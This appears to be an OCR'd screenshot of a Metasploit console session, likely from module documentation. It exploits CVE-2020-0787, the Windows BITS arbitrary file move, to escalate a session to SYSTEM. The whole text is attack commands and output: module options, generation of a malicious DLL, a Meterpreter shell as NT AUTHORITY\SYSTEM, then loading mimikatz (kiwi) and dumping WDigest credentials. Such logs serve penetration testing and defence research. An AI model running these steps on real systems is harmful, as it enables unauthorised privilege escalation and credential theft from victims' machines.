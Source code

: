 
Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSIOn 2
SESSIOn => 2
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set JOB_WAIT_TIME 40
JOB_WAIT_TIME => 40
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Step #1: Checking target environment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 94208 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Sleeping for 40 seconds to allow the exploit to run...
[*] Started bind TCP handler against 172.26.22.128:9988
[*] Sending stage (201283 bytes) to 172.26.22.128
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 172.26.22.128:9988) at 2020-06-10 12:03:39 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-NRCNIDN
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-NRCNIDN$  WORKGROUP        (null)
normal            DESKTOP-NRCNIDN  (null)
test              DESKTOP-NRCNIDN  (null)
